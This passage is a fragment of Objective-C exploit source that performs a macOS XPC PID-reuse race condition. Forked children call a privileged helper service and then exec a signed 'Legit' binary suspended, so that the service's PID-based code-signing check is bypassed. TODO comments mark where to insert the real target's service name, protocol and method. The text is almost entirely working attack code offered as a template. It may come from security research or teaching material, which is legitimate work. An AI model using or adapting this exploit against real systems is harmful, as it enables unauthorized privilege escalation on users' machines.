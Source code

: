```objectivec
    }
    return NULL;
}

void child_xpc_pid_rc_abuse(){
    // TODO: INDICATE A VALID BIN TO BYPASS SIGN VERIFICATION
    #define kValid "./Legit Updater.app/Contents/MacOS/Legit"
    extern char **environ;

    // Connect with XPC service
    // TODO: CHANGE THE ID OF THE XPC TO EXPLOIT
    NSString*  service_name = @"com.example.Helper";
    NSXPCConnection* connection = [[NSXPCConnection alloc] initWithMachServiceName:service_name options:0x1000];
    // TODO: CNAGE THE PROTOCOL NAME
    NSXPCInterface* interface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperProtocol)];
    [connection setRemoteObjectInterface:interface];
    [connection resume];

    id obj = [connection remoteObjectProxyWithErrorHandler:^(NSError* error) {
        NSLog(@"[-] Something went wrong");
        NSLog(@"[-] Error: %@", error);
    }];

    NSLog(@"obj: %@", obj);
    NSLog(@"conn: %@", connection);

    // Call vulenrable XPC function
    // TODO: CHANEG NAME OF FUNCTION TO CALL
    [obj DoSomething:^(_Bool b){
        NSLog(@"Response, %hdd", b);
    }];

    // Change current process to the legit binary suspended
    char target_binary[] = kValid;
    char *target_argv[] = {target_binary, NULL};
    posix_spawnattr_t attr;
    posix_spawnattr_init(&attr);
    short flags;
    posix_spawnattr_getflags(&attr, &flags);
    flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
    posix_spawnattr_setflags(&attr, flags);
    posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

/**
 * Function to perform the PID race condition using children calling the XPC exploit.
 */
void xpc_pid_rc_abuse() {
    #define RACE_COUNT 1
    extern char **environ;
    int pids[RACE_COUNT];

    // Fork child processes to exploit
    for (int i = 0; i < RACE_COUNT; i++) {
        int pid = fork();
        if (pid == 0) {  // If a child process
            child_xpc_pid_rc_abuse();
        }
        printf("forked %d\n", pid);
        pids[i] = pid;
    }

```